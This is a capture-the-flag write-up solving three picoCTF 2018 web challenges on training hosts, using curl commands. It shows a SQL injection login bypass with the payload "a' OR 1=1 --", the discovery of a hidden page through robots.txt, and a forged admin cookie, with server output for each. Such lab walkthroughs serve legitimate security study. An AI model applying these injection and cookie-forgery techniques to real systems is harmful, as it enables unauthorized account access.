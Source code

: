 Klick on the hamburger button to get the link to the admin login, http://2018shell2.picoctf.com:52012/login.html. Open developer tools and try to log in. Right click on login.php and select Copy as cURL. Paste on cmdline.
```bash
curl 'http://2018shell2.picoctf.com:52012/login.php' --data 'username=a&password=b&debug=0'
```
Note. Unnecessary arguments removed.

Change debug to 1 and run again. Now it prints the query.
```
...
SQL query: SELECT * FROM users WHERE name='a' AND password='b'
```
Terminate the string by insert ' into name, add something that is always true and comment out the rest of the row (to get rid of the ADD). Comment character for sqlite is *--*.
```
curl 'http://2018shell2.picoctf.com:52012/login.php' --data "username=a' OR 1=1 --&password=b&debug=1"
<pre>username: a' OR 1=1 --
password: b
SQL query: SELECT * FROM users WHERE name='a' OR 1=1 --' AND password='b'
</pre><h1>Logged in!</h1><p>Your flag is: picoCTF{flag}
```

# Mr. Robots
### Web Exploitation: 200p
Do you see the same things I see? The glimpses of the flag hidden away? http://2018shell2.picoctf.com:10157.

Nothing obvious. Try robots.txt.
```
curl 'http://2018shell2.picoctf.com:10157/robots.txt'
User-agent: *
Disallow: /143ce.html

curl 'http://2018shell2.picoctf.com:10157/143ce.html'
...
<flag>picoCTF{flag}</flag></p>
...
```

# No Login
### Web Exploitation: 200p
Looks like someone started making a website but never got around to making a login, but I heard there was a flag if you were the admin. http://2018shell2.picoctf.com:14664.
Go to page. Open developer tools and click on flag button.
```
curl 'http://2018shell2.picoctf.com:14664/flag'
Redirecting...
```
Try to load the page with cookie admin=*anything* cookie.
```
curl 'http://2018shell2.picoctf.com:14664/flag' -H 'Cookie: admin=cool'
```
Gives flag.
